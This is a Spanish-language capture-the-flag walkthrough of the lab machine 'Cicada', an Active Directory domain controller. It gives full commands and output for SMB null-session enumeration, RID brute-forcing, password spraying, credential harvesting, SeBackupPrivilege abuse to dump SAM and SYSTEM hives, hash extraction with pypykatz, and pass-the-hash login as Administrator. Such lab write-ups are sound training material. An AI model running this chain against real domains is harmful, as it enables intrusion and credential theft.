# [Easy] Cicada
## Autor: David Chaparro <AuthorName>

## Solución

### Enumeración de puertos
Empezamos enumerando puertos normalmente (Este escáner se hace después de utilizar el parámetro -p- para ver y reconocer TODOS los puertos abiertos en la máquina, usándolos en el siguiente escaneo):

```python
# Nmap 7.94SVN scan initiated Sun Oct  6 21:11:29 2024 as: /usr/lib/nmap/nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,51215 -Pn -sVC --min-rate 5000 -oN puertos.txt 10.129.95.255
Nmap scan report for 10.129.95.255
Host is up (0.25s latency).
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-07 08:11:35Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
51215/tcp open  unknown
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-10-07T08:12:22
|_  start_date: N/A
|_clock-skew: 6h59m57s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct  6 21:13:02 2024 -- 1 IP address (1 host up) scanned in 92.85 seconds
```

Parece que estamos en un entorno de AD (Active Directory), por esto podemos considerar ciertos modelos de enumeración y ataque por defecto.

### Enumeración de SMB

Podemos ver el puerto 445, perteneciente por defecto al servicio SMB, que podemos intentar enumerar accediendo con una sesión nula con este comando:

```python
smbclient -L 10.129.50.204 -N
```
* -N : Parámetro para conectarse con una sesión nula
* -L : Parámetro para enumerar las particiones disponibles

```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DEV             Disk      
	HR              Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.50.204 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Podemos obtener el mismo resultado e incluso con más detalles usando `smbmap` logueandonos con el usuario `guest` (Que es un usuario típico en windows, aunque no siempre está habilitado por razones de seguridad) , con este comando:

```python
smbmap -H 10.129.50.204 -u guest
```
* -H : Para asignar la ip del host
* -u : Para asignar el usuario

```
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.129.50.204:445	Name: 10.129.50.204       	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	DEV                                               	NO ACCESS	
	HR                                                	READ ONLY	
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	SYSVOL                                            	NO ACCESS	Logon server share 
[*] Closed 1 connections 
```

Ahora sabemos que podemos leer los recursos `HR` e `IPC$`, ahora podemos intentar ver su contenido conectándonos al servicio con el usuario invitado de la siguiente manera:

```python
smbclient //10.129.50.204/HR -N
```


Vemos una nota de HR (Que podría ser "Human Resources"), la cual va dirigida a los empleados recién contratados, a los que se les indica su contraseña por defecto y una advertencia para que la cambien lo más pronto posible.

Con esta contraseña podríamos intentar ingresar por fuerza bruta probándola con todos los usuarios que intentemos enumerar más adelante.

* Nota: En la partición `SYSVOL` no tenemos permisos para listar los archivos y/o carpetas, pero más adelante con un usuario autenticado vale la pena revisarla otra vez

### Enumeración de usuarios (Por RPC y LDAP)

#### Por RPC

Podemos ingresar al servicio RPC con el comando:

```python
rpcclient -N -U "" 10.129.68.116
```



Parece que no tenemos permisos para ejecutar los comandos de enumeración que necesitamos.

Pero podemos intentar enumerar por fuerza bruta intentando adivinar el número `RID` de algún usuario, para esto ejecutamos el comando:

```python
nxc smb 10.129.68.116 -u 'guest' -p '' --rid-brute > usersRID.txt
```

* (Utilizamos el servicio SMB, ya que en el RPC no tenemos permisos)
* (El parámetro --users no nos devuelve nada, ni siquiera usando el usuario `guest`)



Para hacer una lista de los nombres de usuarios utilizamos `awk` y `tr` (También se pueden utilizar expresiones regulares para simplificar el proceso)

```python
grep '(SidTypeUser)' usersRID.txt | awk '{print $6}' | tr '\\' ' ' | awk '{print $2}' > users.txt
```

Y tenemos los usuarios:

```
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

Ahora vamos a probar si algún usuario se puede autenticar con la contraseña que encontramos anteriormente, usando el comando:

```python
nxc smb winrm 10.129.216.243 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```



Parece que el usuario `michael.wrightson` tiene acceso al servicio SMB con la contraseña `Cicada$M6Corpb*@Lp#nZp!8`



Parece que con este usuario podemos leer más particiones del sistema.



Para pasarnos todas las carpetas y archivos podemos utilizar la serie de comandos mientras estemos en la consola del `smbclient`:

```python
recurse
prompt
mget *
```

#### Por LDAP

Después de enumerar las particiones disponibles, no descubrimos nada que nos sea de utilidad, por esto intentemos enumerar el dominio de nuevo pero, autenticados como el usuario `michael.wrightson` 

Para esto utilizamos la herramienta `ldapsearch` (Necesitamos usar esta herramienta con un usuario autenticado, ya que en el servicio LDAP no está habilitado el usuario invitado):

```python
ldapsearch -x -H ldap://10.129.216.243 -D "michael.wrightson@cicada.htb" -w 'Cicada$M6Corpb*@Lp#nZp!8' -b "DC=cicada,DC=htb" "(objectClass=user)"
```

Utilizamos el valor `"(objectClass=user)"` en el parámetro `-b` (base DN o distinguished name), para que me devuelva solamente los objetos que son usuarios en el dominio.



Viendo la descripción del usuario `david.orelious` podemos observar que dejó anotada la contraseña en su descripción.

#### Usando bloodhound (otra opción)

Para encontrar estas credenciales en la descripción de algún usuario, podemos utilizar la herramienta `bloodhound`. Para utilizarla primero tenemos que extraer toda la información posible del dominio autenticandonos con el usuario que obtuvimos, esto lo hacemos con `bloodhound-python` (herramienta parecida a `SharpHound`) con el siguiente comando:

```python
bloodhound-python -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -ns 10.129.216.243 -d cicada.htb -c all
```
* Con el parámetro `-c all` podemos enumerar todos los objetos del dominio que nos permita el usuario autenticado

Después levantamos una base de datos `neo4j`:

```python
sudo neo4j console
```

Configuramos una nueva contraseña para el inicio de sesión de bloodhound en el puerto 7474 de nuestra ip local: `http://localhost:7474/browser/`, para luego iniciar la GUI de bloodhound en consola:

```python
bloodhound
```

Y ahora subimos todos los archivos .json que obtuvimos con la herramienta `bloodhound-python` para ver los datos y objetos de manera gráfica.

En este caso, esta herramienta sirve para visualizar los objetos (grupos, usuarios y dominios) de un entorno de Active Directory, con esto podemos realizar esta query en la consola del bloodhound para ver los usuarios disponibles:

```python
MATCH (u:User) RETURN u
```



En donde también podemos visualizar las credenciales en la descripción del usuario `david.orelious`

* Nota importante: Enumerando cada usuario, podemos ver que el usuario `emily.oscars` tiene privilegios que los demás usuarios (además del administrador) no tienen (lo podemos ver por el mayor alcance a objetos importantes en el entorno AD), en este caso pertenece al grupo `BACKUP OPERATORS`.





Esto nos puede ayudar a escalar privilegios si conseguimos acceso con el usuario de emily más adelante.

#### Usando enum4linux-ng

La herramienta `enum4linux` es una gran herramienta de enumeración para entornos AD, en este caso, lo que nos importa es la enumeración que realiza con el usuario autenticado vía `RPC`, en donde también nos muestra la descripción del usuario `david.orelious` donde podemos ver las credenciales expuestas:

enum4linux-ng -A -u 'Michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35

* Nota: Adicionalmente, nos muestra grupos, políticas y otros protocolos (como el SMB y el LDAP)

### Foothold (Intrusión con el usuario de Emily)



Usando la herramienta `smbmap` vemos que tenemos permiso de lectura en la partición `DEV` con el usuario `david.orelious`.



En la partición `DEV` encontramos el archivo `Backup_script.ps1`, en el cual se encuentran las credenciales del usuario `emily.oscars` en texto plano.

Si usamos la herramienta `evil-winrm`, podemos obtener una shell interactiva autenticados como el usuario `emily.oscars`:

```python
evil-winrm -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' -i 10.129.216.243
```

En donde encontramos la primera flag ubicada en la carpeta del escritorio!! 🐇



### Lectura de root.txt

Usando este comando de enumeración básica en windows podemos ver los privilegios que tiene el usuario activos:

```bash
whoami /priv
```



En este caso, este usuario tiene habilitado el privilegio `SeBackupPrivilege`, el cual le permite hacer una copia de seguridad de CUALQUIER archivo en el sistema.

Bajo este orden de ideas, podemos copiar la flag de root en nuestra carpeta de escritorio del usuario con el que estamos autenticados, para que este archivo adquiera permisos de escritura para este usuario y poder leerla.

Utilizamos `robocopy` (función para copiar archivos de manera eficaz, con varios parámetros y opciones en sistemas Windows) y con el uso del parámetro `/B` (Backup Mode) abusamos del privilegio del usuario, ya que este parámetro hace uso de este privilegio al hacer una copia de seguridad del archivo, ignorando los permisos de acceso normales:

```
robocopy C:\Users\Administrator\Desktop C:\Users\emily.oscars.CICADA\Desktop root.txt /B
```



De esta manera, el archivo obtiene los permisos de la carpeta de nuestro usuario, lo que nos permite leer el archivo normalmente y por ende la flag de root!! 🐇

### Escalamiento de privilegios

Si queremos obtener una shell como root, podemos aprovechar nuestro privilegio de leer cualquier archivo para obtener el hash de administrador y loguearnos con él, de la siguiente manera:

Primero hacemos una copia de la subclave SAM (Security Account Manager) de registro de la raíz `HKLM` (HKEY_LOCAL_MACHINE), donde se encuentran los hashes de las contraseñas de los usuarios locales:

```
reg save hklm\sam C:\temp\sam.hive
```

Luego, copiamos la clave `SYSTEM` del mismo `HKLM`, donde se encuentran los valores de cifrado necesarios para descifrar los hashes de las contraseñas contenidos en el SAM anteriormente copiado:

```
reg save hklm\system C:\temp\system.hive
```

Ahora, los pasamos a nuestra máquina atacante con el comando `download`:

```
download sam.hive
download system.hive
```

Ahora utilizaremos la herramienta `pypykatz` (una versión de `mimikatz` pero hecha en python) para extraer los hashes utilizando las claves de los registros que obtuvimos anteriormente:

```python
pypykatz registry --sam sam.hive system.hive
```

```
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Por último, para loguearnos con la cuenta de `Administrator`, no es necesario crackear el hash de esta cuenta, simplemente podemos realizar un `pass the hash`, con `evil-winrm`:

```python
evil-winrm -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341' -i 10.129.231.149
```



De esta manera, podemos leer directamente la flag de root!🐇